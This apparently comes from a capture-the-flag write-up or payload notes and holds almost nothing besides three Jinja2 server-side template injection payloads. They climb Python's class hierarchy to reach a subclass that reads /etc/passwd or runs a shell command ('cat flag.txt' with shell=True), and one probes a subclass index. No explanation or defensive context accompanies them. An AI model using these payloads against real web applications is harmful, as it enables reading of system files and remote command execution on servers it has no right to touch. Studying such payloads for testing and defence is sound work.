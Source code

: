 

    {{ ''.__class__.__mro__[1].__subclasses__()[433]('/etc/passwd').read() }}

    {{''.__class__.mro()[1].__subclasses__()[433]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

    {{ ''.__class__.mro()[1].__subclasses__()[430] }}



